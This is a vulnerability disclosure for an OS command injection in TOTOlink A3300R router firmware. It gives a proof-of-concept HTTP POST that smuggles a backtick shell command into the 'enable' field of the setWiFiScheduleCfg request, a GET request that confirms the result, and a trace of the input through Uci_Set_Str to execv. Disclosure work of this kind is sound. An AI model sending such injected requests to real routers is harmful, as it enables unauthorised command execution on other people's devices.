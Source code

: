# TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWiFiScheduleCfg` request,`enable` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C6F41C563E86A379 HTTP/1.1
Host: itotolink.net
Content-Length: 94
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/wifi_schedule.html?token=C6F41C563E86A379&idx=0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"wifiIdx":"0","enable":"1`ls>/web/cmdi13.txt`","isGuest":"0","topicurl":"setWiFiScheduleCfg"}
```

injection the command "ls>/web/cmdi13.txt"

![image-20240119142030763](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/13/img/image-20240119142030763.png)

check the result.

```
GET /cmdi13.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/css,*/*;q=0.1
Referer: http://itotolink.net/advance/wifi_schedule.html?token=C6F41C563E86A379&idx=0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119142035647](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/13/img/image-20240119142035647.png)

## Analysis

sub_417A80 will handle the `setWiFiScheduleCfg` request. sub_417A80 get `enable` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119142637499](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/13/img/image-20240119142637499.png)

![image-20240119140315288](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/13/img/image-20240119140315288.png)



`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131330610.pngg)

